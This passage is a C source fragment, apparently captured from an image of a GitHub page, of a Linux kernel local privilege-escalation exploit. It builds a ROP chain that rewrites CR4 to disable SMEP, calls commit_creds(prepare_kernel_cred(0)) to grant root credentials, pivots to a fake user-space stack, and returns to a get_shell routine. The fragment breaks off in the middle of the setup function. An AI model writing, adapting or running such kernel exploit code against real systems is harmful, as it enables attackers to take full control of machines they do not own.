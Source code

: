 ```

typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);

_commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;

void get_root_payload(void)
{
    commit_creds(prepare_kernel_cred(0));
}
unsigned long rop_chain[] = {
    popraxret,
    0x6f0,
    0xffffffff81001c51,//native_write_cr4,
    poprdiret,
    0,
    PREPARE_KERNEL_CRED,
    0xffffffff81001c50, //: pop rsi ; ret
    poprdiret,
    0xffffffff81264e0b,//: push rax; push rsi; ret; //0xffffffff812646fb, //: push rax ; push rsi ; ret
    COMMIT_CREDS,
    swapgs,
    0x246,
    iretq,
    (unsigned long)&get_shell,
    0,//user_cs,
    0,//user_rflags,
    0,//krop_base_mapped + 0x4000,
    0//user_ss
};

void * fakestack;
void prepare_krop(){
    krop_base_mapped=mmap((void *)krop_base_to_map,0x8000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS,-1,0);
    if (krop_base_mapped<0){
        perror("mmap failed");
    }
    fakestack=mmap((void *)0xa000000000,0x8000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS,-1,0);
    *(unsigned long*)0x0000000081954dc8=popraxret;
    *(unsigned long*)krop_base_to_map = 0;
    *(unsigned long*)(krop_base_to_map+0x1000) = 0;
    *(unsigned long*)(krop_base_to_map+0x2000) = 0;
    *(unsigned long*)(krop_base_to_map+0x3000) = 0;
    *(unsigned long*)(krop_base_to_map+0x4000) = 0;
    *(unsigned long*)(krop_base_to_map+0x5000) = 0;
    *(unsigned long*)(krop_base_to_map+0x6000) = 0;
    *(unsigned long*)(krop_base_to_map+0x7000) = 0;
    *(unsigned long*)(fakestack+0x4000) = 0;
    *(unsigned long*)(fakestack+0x3000) = 0;
    *(unsigned long*)(fakestack+0x2000) = 0;
    *(unsigned long*)(fakestack+0x1000) = 0;
    *(unsigned long*)(fakestack) = 0;
    *(unsigned long*)(fakestack+0x10) = stack_pivot_gadget;
    *(unsigned long*)(fakestack+0x7000) = 0;
    *(unsigned long*)(fakestack+0x6000) = 0;
    *(unsigned long*)(fakestack+0x5000) = 0;
    rop_chain[12+2]=user_cs;
    rop_chain[13+2]=user_rflags;
    rop_chain[14+2]=(unsigned long)(fakestack + 0x6000);
```
